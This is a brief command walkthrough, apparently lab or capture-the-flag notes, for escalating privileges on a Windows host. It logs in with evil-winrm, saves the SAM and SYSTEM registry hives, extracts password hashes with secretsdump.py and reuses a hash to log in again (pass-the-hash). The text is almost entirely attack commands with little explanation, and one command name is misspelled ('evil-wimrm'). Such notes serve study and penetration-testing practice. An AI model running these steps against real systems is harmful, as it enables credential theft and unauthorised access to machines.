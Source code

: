 Login with evil-winrm

> evil-winrm -i x.x.x.x -u <username> -p <password> 

Check for privileges.

> whoami /groups

Let's get the important registry hives.

> reg save hklm\system system.bak
> reg save hklm\sam sam.bak

lets get the hashes.

> python3 secretsdump.py -sam sam.bak -system system.bak LOCAL

Get the hash and copy it.
Use evil-winrm to login using the hash.

> evil-wimrm -i x.x.x.x -u <username> -H <hash> 

